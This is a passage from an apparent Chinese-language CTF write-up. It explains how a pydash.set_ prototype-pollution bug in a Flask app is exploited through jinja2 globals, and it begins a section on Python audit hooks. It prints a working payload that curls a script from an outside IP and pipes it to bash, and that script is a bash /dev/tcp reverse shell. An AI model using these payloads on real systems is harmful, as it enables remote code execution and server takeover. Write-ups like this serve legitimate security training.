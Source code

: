 `/Admin` 里面用到了 `pydash.set_(user_data, key, value)` ，查到是原型链污染，但是过滤的有点多

#### 0x03 反弹 shell  

![image-20250126183105768](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/67960eeb1e8fe.png)

payload ，参考：https://ctftime.org/writeup/36082

```json
{
	"key": "__class__.__init__.__globals__.__builtins__.__spec__.__init__.__globals__.sys.modules.jinja2.runtime.exported.2",
	"value": "*;__import__('os').system('curl http://47.76.93.208:8000/hack.sh | bash');#"
}
```

hack.sh

```sh
bash -c "bash -i >& /dev/tcp/47.76.93.208/2333 0>&1"
```

访问渲染 admin.html 的页面，点了一下 back to home ，触发反弹

![image-20250126183241888](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/67960f4a9aefe.png)

![image-20250126183306944](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/67960f639a255.png)

> SUCTF{fl4sk_1s_5imp1e_bu7_pyd45h_1s_n0t_s0_I_l0v3}



### SU_easyk8s

k8s 用都没用过，一点头猪没有，也没搜到太多有用的东西，直接看 wp 吧

#### 0x00 Python Audit Hook RCE

什么玩意，没听说过，查：https://xz.aliyun.com/news/15665

> Audit Hook 是 python 3.8 中引入的特性，使用审计狗子来监控和记录程序运行行为，特别是安全敏感行为，如文件读写、网络通信和动态代码执行等
>
> 审计事件包括但不限于：
>
> `import` : 导入模块
>
> `open` : 打开文件
>
> `exec` : 执行代码
>
> `compile` : 编译代码
>
> `socket` : 创建或使用套接字
>
> `os.system` ， `os.popen` 等 : 执行操作系统命令
>
> `subprocess.popen` ， `subprocess.run` 等 : 启动子进程
>
> 等等
